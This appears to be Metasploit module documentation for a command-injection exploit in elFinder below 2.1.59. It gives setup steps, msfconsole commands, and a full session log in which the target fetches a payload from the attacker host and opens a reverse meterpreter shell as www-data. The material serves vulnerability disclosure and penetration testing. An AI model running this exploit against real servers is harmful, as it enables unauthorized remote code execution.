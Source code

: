 ## Vulnerable Application

elFinder versions below 2.1.59 are vulnerable to a command injection
vulnerability via its archive functionality.

When creating a new zip archive, the `name` parameter is sanitized
with the `escapeshellcmd()` php function and then passed to the
`zip` utility. Despite the sanitization, supplying the `-TmTT`
argument as part of the `name` parameter is still permitted and
enables the execution of arbitrary commands as the `www-data` user.

Tested on elFinder versions `2.1.57`, `2.1.58`, and `2.1.59`.

### Installation Steps

1. Set up a php server
2. Download a vulnerable version of the elFinder [software](https://github.com/Studio-42/elFinder/archive/2.1.58.zip)
3. Rename the minimal connector file: `mv /php/connector.minimal.php-dist /php/connector.minimal.php`
4. Access the software at `http://<host>/elfinder.html`

Additional installation methods can be found [here](https://github.com/Studio-42/elFinder#installation).

## Verification Steps

1. Install the application
2. Start msfconsole
3. Do: `use exploit/linux/http/elfinder_archive_cmd_injection`
4. Do: `set RHOST <ip>`
5. Do: `set LHOST <ip>`
6. Do: `run`
7. You should get a meterpreter session.

## Scenarios

### elFinder `v2.1.58` on Ubuntu 20.04.1

```
msf6 > use exploit/linux/http/elfinder_archive_cmd_injection
[*] Using configured payload linux/x86/meterpreter/reverse_tcp
msf6 exploit(linux/http/elfinder_archive_cmd_injection) > set rhost 192.168.140.128
rhost => 192.168.140.128
msf6 exploit(linux/http/elfinder_archive_cmd_injection) > set lhost 192.168.140.1
lhost => 192.168.140.1
msf6 exploit(linux/http/elfinder_archive_cmd_injection) > run

[*] Started reverse TCP handler on 192.168.140.1:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. elFinder running version 2.1.58
[*] Uploading file LojGHIOkAW.txt to elFinder
[+] Text file was successfully uploaded!
[*] Attempting to create archive fMuuXCkA.zip
[+] Archive was successfully created!
[*] Using URL: http://0.0.0.0:8080/OR3Kz5kxLZp
[*] Local IP: http://192.168.1.199:8080/OR3Kz5kxLZp
[*] Client 192.168.140.128 (Wget/1.20.3 (linux-gnu)) requested /OR3Kz5kxLZp
[*] Sending payload to 192.168.140.128 (Wget/1.20.3 (linux-gnu))
[*] Command Stager progress -  62.50% done (75/120 bytes)
[*] Command Stager progress -  89.17% done (107/120 bytes)
[*] Sending stage (984904 bytes) to 192.168.140.128
[+] Deleted LojGHIOkAW.txt
[+] Deleted fMuuXCkA.zip
[*] Meterpreter session 1 opened (192.168.140.1:4444 -> 192.168.140.128:39822) at 2021-09-09 16:10:06 -0500
[*] Command Stager progress - 100.00% done (120/120 bytes)
[*] Server stopped.

meterpreter > getuid
Server username: www-data @ ubuntu (uid=33, gid=33, euid=33, egid=33)
meterpreter > sysinfo
Computer     : 192.168.140.128
OS           : Ubuntu 20.04 (Linux 5.11.0-27-generic)
Architecture : x64
BuildTuple   : i486-linux-musl
Meterpreter  : x86/linux
```
